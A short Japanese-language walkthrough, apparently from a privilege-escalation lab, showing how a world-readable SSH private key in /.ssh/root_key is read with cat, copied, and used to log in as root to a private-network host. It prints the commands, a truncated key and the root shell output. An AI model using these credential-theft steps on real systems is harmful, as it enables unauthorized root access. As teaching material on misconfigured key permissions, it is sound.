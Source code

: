 SSHを使用するユーザーを認証するために、パスワードの代わりにSSH鍵を使用することができます。   
SSH の鍵は、秘密鍵と公開鍵のペアで提供されます。    
秘密鍵は常に秘密にしておく必要があります。    
その鍵を使って自分のアカウントにログインできる可能性があります。   
# Privilege Escalation
1. システムルートディレクトリに隠しディレクトリ（.ssh）が存在します。このディレクトリの内容を表示します。
```
$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 19 06:56 root_key
```
ファイル root_key は誰でも読み取り可能です。
2. root_keyファイルの内容を表示します。
```
$ cat /.ssh/root_key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
...
```
3. root_keyファイルをローカルマシンにコピーし、SSHがそれを受け入れるようにパーミッションを修正します。
```
$ chmod 600 root_key
```
4. このキーを使って、rootユーザーでSSHサーバーに接続します。
```
$ ssh -i root_key root@192.168.1.25
...
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```
